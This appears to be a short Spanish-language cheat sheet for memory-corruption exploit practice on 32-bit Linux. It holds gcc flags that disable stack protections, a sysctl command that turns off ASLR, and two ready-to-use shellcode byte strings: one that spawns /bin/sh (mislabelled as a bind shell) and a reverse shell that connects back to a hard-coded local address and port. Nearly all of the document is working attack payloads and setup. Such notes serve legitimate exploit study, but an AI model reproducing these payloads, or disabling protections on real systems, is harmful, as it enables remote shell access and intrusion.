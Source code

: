 # Vulnes

## Comandos Útiles

    name=shellcode

    gcc $name.c -o $name -no-pie -ggdb -m32 -fno-pic -z execstack -mpreferred-stack-boundary=2 -fno-stack-protector

    nasm -f elf32 -o $name.obj $name.asm && ld -m elf_i386 -o $name $name.obj

## ASLR

    PATH: 			/proc/sys/kernel/randomize_va_space
    Disable Randomization: 	sysctl -w kernel.randomize_va_space=0

## shellcode

### bind_shell
        
    char shellcode[] = "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b";

    lenght = 49

### reverse_shell

    char shellcode[] = "\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\xff\xff\xff\xff\xbb\x80\xff\xff\xfe\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

    lenght = 93
